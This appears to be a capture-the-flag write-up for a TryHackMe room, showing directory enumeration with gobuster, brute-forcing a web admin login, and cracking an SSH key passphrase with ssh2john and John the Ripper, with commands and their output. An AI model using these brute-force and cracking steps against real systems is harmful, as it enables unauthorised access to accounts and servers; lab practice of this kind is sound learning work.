```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -u http://brute.thm  

.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/admin                (Status: 301) [Size: 306] [--> http://brute.thm/admin/]

```

Let's go :

![[Pasted image 20250724174046.png]]

So we have to find credentials, in the [[Source Code]] we find username : `admin`
### Caido

We can perform password  [[Bruteforcing]] :

![[Pasted image 20250724175550.png]]

![[Pasted image 20250724175605.png]]

So the password is `xavier` :

![[Pasted image 20250724175703.png]]

### Ssh2john

We copy the key and use [[Ssh2john]] to make it john readable and crack it :

```bash
──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ ssh2john key > pass.hash 
```

### John the Ripper

Now we can use [[JohnTheRipper]] to find the password :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (key)     
1g 0:00:00:00 DONE (2025-07-24 17:59) 50.00g/s 3633Kp/s 3633Kc/s 3633KC/s saloni..punyaku
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
